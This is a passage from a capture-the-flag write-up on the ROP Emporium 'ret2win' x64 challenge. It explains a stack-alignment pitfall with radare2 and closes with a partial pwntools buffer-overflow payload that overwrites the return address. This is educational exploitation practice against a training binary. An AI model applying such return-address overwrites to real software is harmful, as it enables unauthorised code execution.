 ![missing-flag](/images/ret2win/x64-missing-flag.png)

When we run this we reach the `ret2win` function
since the text `Here's your flag:` is printed to
the screen, but the flag isn't printed. What's
going on?

> The answer is in the `Common pitfalls` section
> in the [Beginners' guide](https://ropemporium.com/guide.html){:target="_blank"}{:rel="noopener noreferrer"}
{: .prompt-tip }


The x64 calling convention requires the stack to be
16 byte aligned when calling certain functions. Using
`radare2` we can check what instructions are being
run at this address

```
s sym.ret2win
V
p
```
![ret2win-asm](/images/ret2win/x64-ret2win-asm.png)

The address we're jumping to, `0x00400756`, executes
a `push` instruction which places a value onto the
stack. This is likely misaligning the stack and
causing the a crash when `system` is called.

To solve this, we can just change the address we
return to! If we skip the `push` instruction
entirely our stack should be properly aligned
for the `system` call.

## Exploit
By fixing the address our final exploit becomes
```python
#!/bin/python3
from pwn import *

# create payload
ret2win_addr = 0x00400756
payload = b'A'*40
# return to mov rbp, rsp
# rather than pop rbp
payload += p64(ret2win_addr + 1)

```